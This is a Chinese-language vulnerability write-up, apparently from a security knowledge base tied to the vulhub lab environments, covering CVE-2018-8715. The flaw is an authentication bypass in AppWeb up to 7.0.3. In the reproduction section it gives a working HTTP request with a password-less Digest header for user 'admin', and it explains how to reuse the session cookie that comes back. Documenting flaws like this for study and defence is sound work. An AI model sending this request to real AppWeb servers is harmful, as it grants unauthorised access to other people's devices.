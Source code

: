 ```yaml
---
title: "（CVE-2018-8715）AppWeb认证绕过漏洞"
id: zhfly2831
---
```


# （CVE-2018-8715）AppWeb认证绕过漏洞

## 一、漏洞简介

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

*   basic 传统HTTP基础认证
*   digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
*   form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

## 二、漏洞影响

AppWeb <=7.0.3

## 三、复现过程

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin 
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![image](../img/82a434cf342a76bdbeb452356babbac5.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![image](../img/19fa28faab0c19b6980c2d83664d97c8.png)

## 参考链接

> https://vulhub.org/#/environments/appweb/CVE-2018-8715/
